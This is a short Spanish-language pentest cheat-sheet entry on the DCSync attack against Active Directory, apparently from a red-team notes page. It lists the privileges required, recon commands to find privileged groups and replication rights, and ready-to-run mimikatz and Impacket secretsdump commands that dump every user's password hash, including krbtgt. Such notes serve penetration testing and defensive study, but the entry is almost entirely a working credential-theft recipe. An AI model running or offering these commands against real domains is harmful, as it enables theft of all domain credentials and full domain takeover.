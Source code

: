 ✅**DCSync**

🎯 Requerimientos:

    1. Miembro de grupo Domain Admins, Enterprise Admins o permisos Replicating Directory Changes.

    2. Acceso a ejecutar mimikatz o secretsdump.

🔍 Cómo reconocer:

    1. Ver grupos privilegiados:
```powershell
net group "Domain Admins" /domain
```
    2. Revisar permisos Replicating Directory Changes:

```powershell
dsacls.exe "CN=Domain Controllers,CN=Users,DC=domain,DC=com"
```
⚡ Exploitar:

```powershell
mimikatz "lsadump::dcsync /user:DOMAIN\krbtgt"
```
o con Impacket:

```bash
impacket-secretsdump domain/user:pass@dc_ip
```
> Dump de hashes de todos los usuarios, incluidos krbtgt.
